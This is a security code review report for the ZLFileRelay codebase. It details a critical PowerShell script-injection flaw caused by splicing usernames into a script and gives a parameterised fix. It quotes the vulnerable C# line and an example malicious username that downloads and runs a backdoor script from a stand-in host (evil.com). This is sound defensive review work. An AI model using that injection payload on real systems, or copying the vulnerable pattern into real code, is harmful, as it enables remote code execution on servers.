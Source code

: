 # ZL File Relay - Security Code Review Report

**Date:** October 8, 2025  
**Reviewer:** Security Professional  
**Scope:** Complete codebase security analysis  
**Severity Levels:** CRITICAL | HIGH | MEDIUM | LOW | INFO

---

## Executive Summary

This security review identified **13 security issues** across the ZLFileRelay codebase:
- **2 CRITICAL** severity issues requiring immediate attention
- **3 HIGH** severity issues  
- **5 MEDIUM** severity issues
- **3 LOW** severity issues

The application demonstrates good security practices in several areas (DPAPI encryption, path validation, input sanitization), but has critical vulnerabilities in PowerShell command execution and credential handling that must be addressed before production deployment.

---

## CRITICAL SEVERITY ISSUES

### 🚨 CRITICAL-1: PowerShell Script Injection Vulnerability

**File:** `src/ZLFileRelay.ConfigTool/Services/ServiceAccountManager.cs` (Line 206)  
**File:** `src/ZLFileRelay.ConfigTool/Services/PowerShellRemotingService.cs`

**Issue:**  
The `GrantLogonAsServiceRightAsync` method constructs a PowerShell script using simple string replacement, which is vulnerable to script injection attacks:

```csharp
// Line 206 - VULNERABLE
var result = await _psRemoting.ExecuteScriptAsync(
    psScript.Replace("$UserName", $"'{username}'"));
```

**Attack Vector:**  
An attacker could provide a username like: `test'; Invoke-Expression (New-Object Net.WebClient).DownloadString('http://evil.com/backdoor.ps1'); #`

**Impact:**  
- Remote code execution on target servers
- Complete system compromise
- Privilege escalation

**Recommendation:**  
Use parameterized PowerShell execution instead of string concatenation:

```csharp
// SECURE ALTERNATIVE
var parameters = new Dictionary<string, object> { { "UserName", username } };
var result = await _psRemoting.ExecuteCommandAsync("Grant-LogonAsService", parameters);

// Or use proper escaping
var escapedUsername = username.Replace("'", "''").Replace("`", "``");
```
